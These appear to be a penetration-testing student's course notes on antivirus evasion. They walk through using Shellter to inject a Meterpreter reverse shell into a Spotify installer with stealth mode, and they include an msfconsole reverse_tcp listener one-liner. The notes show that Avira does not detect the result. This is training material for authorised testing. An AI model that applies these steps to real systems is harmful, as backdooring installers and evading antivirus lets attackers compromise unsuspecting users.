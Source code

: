Next, we must select a target PE
+ Shellter will analyze and alter the execution flow to inject and execute our payload
+ For this example, we will use the Windows 32-bit trial executable installer for the popular music player _Spotify_ as our target PE
	+ At time of this writing, Spotify offers only the 32-bit Windows version of the installer
	+ For real engagements, it is best practice to pick a new, less scrutinized application as Shellter's author explains

To start, we'll need to tell Shellter the Spotify installer location on our local Kali machine
+ In this case, it is **/home/kali/desktop/spotifysetup.exe**. Before analyzing and altering the original PE in any way, Shellter will first create a backup of the file
![[Pasted image 20231031092939.png]]

As soon as Shellter finds a suitable place to inject our payload, it will ask us if we want to enable _Stealth Mode_, which will attempt to restore the execution flow of the PE after our payload has been executed. Let's enable Stealth Mode as we would like the Spotify installer to behave normally in order to avoid any suspicion
![[Pasted image 20231031093245.png]]
+ Note that in order to restore the execution flow through the Stealth Mode option, custom payloads need to terminate by exiting the current thread
+ After some testing, it seems that any non-Meterpreter payload fails to be executed correctly under Windows 11 and thus, we'll need to resort to Meterpreter-based payloads
+ At this stage, we should not worry too much about the differences between standard and Meterpreter payloads as we are going to learn about those in an upcoming Module

In order to test Shellter's bypass capabilities, we will use the Meterpreter version of the reverse shell payload that Avira detected at the beginning of this Module
+ After submitting **L** for _listed payloads_, we'll select the first payload
+ We are then presented with the default options from Metasploit, such as the reverse shell host (_LHOST_) and port (_LPORT_), which we should fill with our local Kali's IP address and listening port
![[Pasted image 20231031093442.png]]

With all of the parameters set, Shellter will inject the payload into the Spotify installer and attempt to reach the first instruction of the payload
![[Pasted image 20231031093536.png]]

Now that the test has succeeded, before transferring over the malicious PE file to our Windows client, we will configure a listener on our Kali machine to interact with the Meterpreter payload
+ We can accomplish this with the following one-liner, remembering to replace the IP address with the one on our Kali box
```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
```

Next, we will transfer the backdoored Spotify installer over to the target Windows 11 client and launch an Avira Quick Scan as we did previously.
![[Pasted image 20231031093634.png]]

Avira's Quick Scan performs a check inside every user's common folder, including the Desktop folder

Since Shellter obfuscates both the payload as well as the payload decoder before injecting them into the PE, Avira's signature-based scan runs cleanly. It does not consider the binary malicious
+ Once we execute the file, we are presented with the default Spotify installation window, which under normal circumstances will download the Spotify package over the internet
+ Because our VM has no internet connection, the Spotify installer will hang indefinitely
